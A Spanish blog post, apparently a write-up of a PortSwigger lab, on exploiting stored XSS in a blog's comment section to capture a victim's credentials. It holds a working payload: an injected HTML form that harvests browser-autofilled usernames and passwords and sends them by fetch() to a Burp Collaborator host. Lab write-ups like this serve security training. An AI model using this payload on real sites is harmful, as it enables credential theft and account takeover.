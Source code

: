 ```yaml
---
title: "Exploiting cross-site scripting to capture passwords"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XSS
tags:
  - Portswigger Labs
  - XSS
  - Exploiting cross-site scripting to capture passwords
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `exfiltrar` el `nombre de usuario` y la `contraseña` de la víctima, luego usar estas `credenciales` para `iniciar sesión` en la cuenta de la víctima

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS-Guide/](https://justice-reaper.github.io/posts/XSS-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-23/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-23/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-23/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-23/image_4.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags (HttpOnly y Secure)`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-23/image_5.png)

Debido a que podemos `inyectar código HTML` podemos `crear` un `formulario` y `aprovechar` el `autocompletado` del `navegador` para `obtener` las `credenciales`. En esta web [https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete) nos `detalla` como podemos usar el `atributo autocomplete` y los `requerimientos necesarios` para que se `ejecute correctamente`. El `atributo autocomplete` a parte de `on` y `off` tiene varios valores interesante los cuales se pueden ver accediendo a la web mencionada anteriormente, entre estos valores están `username`, `nickname`, `new-password`, `current-password` y `email` entre otros. He creado este `formulario` se aprovecha del `autocompletado` del `navegador` para `obtener` las `credenciales` del `usuario administrador`

```
<form action="#" method="post">
  <input type="text" id="loginUsername" name="username" autocomplete="on" placeholder="Introduce tu nombre de usuario" required>
  <input type="password" id="loginPassword" name="password" autocomplete="on" placeholder="Introduce tu contraseña" required onchange="
    if(this.value.length) {
      fetch('https://7t1e3i5rp0jhqj79js8c833qchi8aw0kp.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: loginUsername.value + ':' + this.value
      });
    }
  ">
  <button type="submit">Enviar</button>
</form>
```

Una vez `publicado` este `comentario` nos vamos a `Burpsuite Collaborator` y `obtenemos` el `nombre` de `usuario` y la `contraseña` de los `usuarios`

![](/assets/img/XSS-Lab-23/image_6.png)

Pulsamos sobre `My account` y nos `logueamos` con las `credenciales`

![](/assets/img/XSS-Lab-23/image_7.png)
